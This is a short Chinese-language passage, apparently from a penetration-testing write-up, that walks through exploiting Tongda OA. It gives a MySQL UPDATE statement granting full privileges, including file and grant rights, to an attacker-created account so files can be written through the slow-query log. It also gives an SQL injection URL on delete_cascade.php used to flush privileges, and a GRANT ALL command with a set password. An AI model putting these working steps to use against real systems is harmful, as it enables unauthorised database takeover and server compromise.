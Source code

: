 

使用工具连接数据库，刚刚添加的用户无法直接通过日志慢查询写入文件，需要给创建的账户添加权限

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```



然后用注入点刷新权限，因为该用户是没有刷新权限的权限的

```
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;
```

![image-20210409194101029](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409194101029.png)



再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](images/%E9%80%9A%E8%BE%BEOA.assets/1592114-20200918145636404-104307491.png)
